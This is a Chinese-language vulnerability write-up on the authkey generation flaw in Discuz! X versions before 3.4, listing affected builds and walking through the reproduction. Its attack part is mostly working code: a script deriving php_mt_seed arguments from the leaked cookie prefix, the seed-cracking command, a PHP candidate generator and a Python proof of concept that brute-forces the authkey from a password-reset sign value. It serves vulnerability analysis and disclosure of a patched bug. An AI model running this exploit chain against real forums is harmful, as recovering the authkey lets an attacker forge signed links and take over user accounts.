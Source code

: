 Discuz! X \< 3.4 authkey 算法的安全性漏洞
=========================================

一、漏洞简介
------------

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等...

二、漏洞影响
------------

php\>5.3+php-curl\<=7.54

-   Discuz\_X3.3\_SC\_GBK

-   Discuz\_X3.3\_SC\_UTF8

-   Discuz\_X3.3\_TC\_BIG5

-   Discuz\_X3.3\_TC\_UTF8

-   Discuz\_X3.2\_SC\_GBK

-   Discuz\_X3.2\_SC\_UTF8

-   Discuz\_X3.2\_TC\_BIG5

-   Discuz\_X3.2\_TC\_UTF8

-   Discuz\_X2.5\_SC\_GBK

-   Discuz\_X2.5\_SC\_UTF8

-   Discuz\_X2.5\_TC\_BIG5

-   Discuz\_X2.5\_TC\_UTF8

三、复现过程
------------

### 漏洞分析

在dz3.3/upload/install/index.php 346行

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId25.png)

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId26.png)

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

    $_config['cookie']['cookiepre'] = random(4).'_';

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId27.png)

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php\_mt\_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

    # coding=utf-8
    w_len = 10
    result = ""
    str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
    length = len(str_list)
    for i in xrange(w_len):
        result+="0 "
        result+=str(length-1)
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    sstr = "sW7c"
    for i in sstr:
        result+=str(str_list.index(i))
        result+=" "
        result+=str(str_list.index(i))
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    print result

得到参数,使用php\_mt\_seed脚本

https://github.com/ianxtianxt/php-mt\_rand

    ./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

    <?php
    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }
    $fp = fopen('result.txt', 'rb');
    $fp2 = fopen('result2.txt', 'wb');
    while(!feof($fp)){
        $b = fgets($fp, 4096);
        if(preg_match("/seed = (\d)+/", $b, $matach)){
            $m = $matach[0];
        }else{
            continue;
        }
        // var_dump(substr($m,7));
        mt_srand(substr($m,7));
        fwrite($fp2, random(10)."\n");
    }
    fclose($fp);
    fclose($fp2);

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16\*\*6\*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php`
65行生成用于验证的sign值。

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId28.png)

跟随make\_getpws\_sign函数进入`/source/function/function_member.php`

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId29.png)

然后进入dsign函数，配合authkey生成结果

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId30.png)

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
>
> 自行修改第7,8,13行代码

    # coding=utf-8
    import itertools
    import hashlib
    import time
    def dsign(authkey):
        url = "http://127.0.0.1/dz3.3/"
        idstring = "vnY6nW"
        uid = 2
        uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
        url_md5 = hashlib.md5(uurl+authkey)
        return url_md5.hexdigest()[:16]
    def main():
        sign = "af3b937d0132a06b"
        str_list = "0123456789abcdef"
        with open('result2.txt') as f:
            ranlist = [s[:-1] for s in f]
        s_list = sorted(set(ranlist), key=ranlist.index)
        r_list = itertools.product(str_list, repeat=6)
        print "[!] start running...."
        s_time = time.time()
        for j in r_list:
            for s in s_list:
                prefix = "".join(j)
                authkey = prefix + s
                # print dsign(authkey)
                if dsign(authkey) == sign:
                    print "[*] found used time: " + str(time.time() - s_time)
                    return "[*] authkey found: " + authkey
    print main()

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId32.png)

![](resource/Discuz!X3.4authkey算法的安全性漏洞/media/rId33.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
